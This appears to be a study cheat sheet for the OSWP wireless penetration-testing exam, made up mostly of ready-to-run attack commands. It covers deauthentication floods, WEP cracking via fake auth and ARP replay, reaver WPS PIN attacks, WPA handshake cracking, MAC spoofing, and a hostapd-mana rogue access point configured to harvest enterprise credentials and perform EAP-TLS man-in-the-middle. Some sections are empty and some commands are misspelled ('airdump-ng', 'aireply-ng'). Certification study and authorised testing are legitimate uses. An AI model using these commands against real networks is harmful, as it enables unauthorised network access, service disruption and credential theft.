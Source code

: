 # OSWP Cheat-sheet

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w <capture>
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID (Hiden ESSID)
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack

### Attack using Fake auth and ARP-replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -3 -b <AP_MAC> -h <host_MAC> <interface> # ARP replay
aircrack-ng <*.cap>
```
### Interactive packet Replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -2 -b <AP_MAC> -d ff:ff:ff:ff:ff:ff <interface>

```

## Bypassing WEP (SKA)
```


```


## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack
### Handshake Capture (req. client) & Cracking
```
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> <interface>
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>
```
### PMKID Capture (client-less) & Cracking
```

```

## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
# SSID of the AP
ssid=Amaze_LLC

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan1
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```



mana.eap_user
```
*     PEAP,TTLS,TLS,FAST,MD5,GTC
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
OR
iw dev <interface> set monitor none
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
### No associated devices
```
aireply-ng -0 100 -e <ESSID> <interface>
```
